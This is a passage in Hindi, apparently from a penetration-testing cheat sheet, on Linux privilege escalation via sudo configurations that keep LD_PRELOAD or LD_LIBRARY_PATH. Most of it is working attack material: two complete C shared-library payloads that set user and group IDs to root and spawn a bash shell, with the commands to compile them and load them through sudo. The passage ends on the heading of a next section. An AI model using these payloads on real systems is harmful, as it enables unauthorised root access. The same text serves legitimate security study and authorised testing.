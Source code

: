 यदि _ruid != euid_ हो तो लोडर _LD\_PRELOAD_ को अनदेखा करता है ताकि इसे _suid/sgid_ निष्पादनीय बाइनरीज़ के रूप में एक हमला वेक्टर के रूप में उपयोग नहीं किया जा सके। इस तरह की बाइनरीज़ के लिए, केवल मानक पथ में पुस्तकालयों को प्रीलोड किया जाएगा जो भी _suid/sgid_ होंगे।

यदि आप **`sudo -l`** के आउटपुट में इस वाक्यांश को पाते हैं: _**env\_keep+=LD\_PRELOAD**_ और आप sudo के साथ कुछ कमांड कॉल कर सकते हैं, तो आप विशेषाधिकारों को उन्नत कर सकते हैं।
```
Defaults        env_keep += LD_PRELOAD
```
सहेजें जैसे **/tmp/pe.c**
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
फिर इसे **कंपाइल** करें:
```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```
अंत में, **विशेषाधिकारों को बढ़ाएं** चल रहा है
```bash
sudo LD_PRELOAD=./pe.so <COMMAND> #Use any command you can run with sudo
```
{% hint style="danger" %}
एक समान प्राइवेसीक अधिकार उल्लंघन किया जा सकता है अगर हमलावर LD\_LIBRARY\_PATH env चर को नियंत्रित करता है क्योंकि उसे पथ नियंत्रित करता है जहां पुस्तकालयों की खोज की जाएगी।
{% endhint %}
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

```bash
# Compile & execute
cd /tmp
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <COMMAND>
```
### SUID बाइनरी - .so इंजेक्शन
